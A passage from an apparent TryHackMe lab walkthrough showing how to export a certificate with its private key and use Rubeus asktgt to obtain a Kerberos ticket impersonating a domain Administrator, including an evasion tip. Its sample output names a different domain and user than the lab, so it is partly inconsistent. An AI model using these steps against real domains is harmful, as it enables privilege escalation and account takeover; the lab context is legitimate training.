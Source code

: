 Your additional information should look something like this:

![MMC Certificates](20cd4305f7a15c9ceb3ddd8c96088b09.png)

![img]()Once you are happy with it, click **Apply** and **OK**. Then, select the certificate and click **Enroll**. You should be able to see your certificate:

![MMC Certificates](6bed1474264e87f3be91e028a06b317b.png)

The last step is to export our certificate with the private key:

1. Right-click on the certificate and select **All Tasks**->**Export...**
2. Click **Next**, select **Yes, export the private key**, and click **Next**.
3. Click **Next**, then set a password for the certificate since the private key cannot be exported without a password.
4. Click **Next** and select a location to store the certificate.
5. Click **Next** and finally click **Finish.**

User Impersonation through a Certificate

Now we can finally impersonate a user. To perform this, two steps are required:

- Use the certificate to request a Kerberos ticket-granting ticket (TGT)
- Load the Kerberos TGT into your hacking platform of choice

For the first step, we will be using [Rubeus](https://github.com/GhostPack/Rubeus). An already compiled version is available in the `C:\Tools\` directory. Open a command prompt window and navigate to this directory. We will use the following command to request the TGT:

```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate: /password:  /outfile: /domain:za.tryhackme.loc /dc:
```

Let's break down the parameters:

- **/user** - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
- **/enctype** -This specifies the encryption type for the ticket. Setting this is  important for evasion, since the default encryption algorithm is weak,  which would result in an overpass-the-hash alert
- **/certificate** - Path to the certificate we have generated
- **/password** - The password for our certificate file
- **/outfile** - The file where our TGT will be output to
- **/domain** - The FQDN of the domain we are currently attacking
- **/dc** - The IP of the domain controller which we are requesting the TGT from. Usually it is best to select a DC that has a CA service running

Once we execute the command, we should receive our TGT:

- **TGT Request**      

```powershell
C:\THMTools> .\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:12.31.1.101
          ______        _
         (_____ \      | |
          _____) )_   _| |__  _____ _   _  ___
         |  __  /| | | |  _ \| ___ | | | |/___)
         | |  \ \| |_| | |_) ) ____| |_| |___ |
         |_|   |_|____/|____/|_____)____/(___/
       
         v2.0.0
       
       [*] Action: Ask TGT
       
       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'lunar.eruca.com\svc.gitlab'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):
```

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami